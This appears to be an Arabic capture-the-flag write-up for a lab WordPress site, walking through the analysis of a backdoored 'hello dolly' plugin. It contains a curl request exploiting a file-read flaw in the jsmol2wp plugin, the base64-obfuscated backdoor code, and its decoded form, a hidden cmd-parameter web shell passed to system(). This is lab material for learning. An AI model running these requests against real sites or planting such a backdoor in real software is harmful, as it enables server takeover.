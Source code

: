 ![webmaster_tasks](/assets/img/smol_webmaster.png)
### تحليل الباب الخلفي -backdoor-
في أول سطر نلاحظ أن الكاتب ذكر أن وحدة من الإضافات في الموقع من الممكن أنها تحتوي على باب خلفي backdoor وهو بكل بساطة طريقة للمهاجم إنه يوصل للسيرفر بدون مايستغل الثغرة كل شوية -أنا قد حصلت باب خلفي في موقع جامعة هندية، أعتقد قروب من الفلبين اخترق الموقع وزرع الباب، حصلته داخل مجلد اسمه عبارة عن إيميل، بس يوم تخش المجلد تشوف ملفات php.  ... غريبة!-. عموما، يوم نبحث عن اسم الإضافة -hello dolly- نحصل [هذا المقال يتكلم عنها](https://social.cyware.com/news/new-backdoor-malware-found-infecting-wordpress-and-joomla-websites-cde02f62). المقال يذكر أن الملف اللي فيه السورس كود حق الإضافة بعنوان hello.php خلينا نستخدم ثغرة الSSRF عشان نشوف محتوى الملف
```bash
$ curl "http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../hello.php"
...
function hello_dolly() {
	eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
...
```
يوم نفحص محتوى الملف نجد دالة داخلها دالة تعتبر خطيرة ()eval داخل هذه الدالة نص مشفر بتشفير base64
```bash
$ echo 'CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA=' | base64 -d

if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }
```
نلاحظ عندنا جملة شرطية، إذا كان فيه parameter باسم محدد، نفذ الاوامر اللي موجودة مع ال parameter . السؤال الآن، إيش اسم هذا ال parameter في البداية الواضح أنه يتكون من ثلاث حروف، أول اثنين من النظام الثماني والثالث من النظام السادس عشري، يمديك تفكها من خلال cyberchef أو تعطيها لأي مودل ذكاء صناعي ويفكها لك، أنا رحت مع الذكاء الصناعي، اسم الparameter هو cmd. طيب الآن يوم نشوف الكود نلاحظ أن الدالة ماتم مناداتها وهذا يعني أنها ماراح تتفعل، حتى يوم تحاول ترسل طلب بشكل مباشر للملف ماراح ينفذ الأمر
```bash
$ curl "http://www.smol.thm/wp-content/plugins/hellp.php?cmd=sleep%205"
```
أنا لاحظت هذا الشي لكن لقل خبرتي في php استعنت بالذكاء الاصطناعي عشان أحلل الكود، الدالة لاتنادى بشكل مباشر لكن السكربت بالكامل يشتغل في الصفحة حقت الآدمن، خلينا نشوف هذا السطر في نصف الملف
``` bash
...
add_action( 'admin_notices', 'hello_dolly' );
```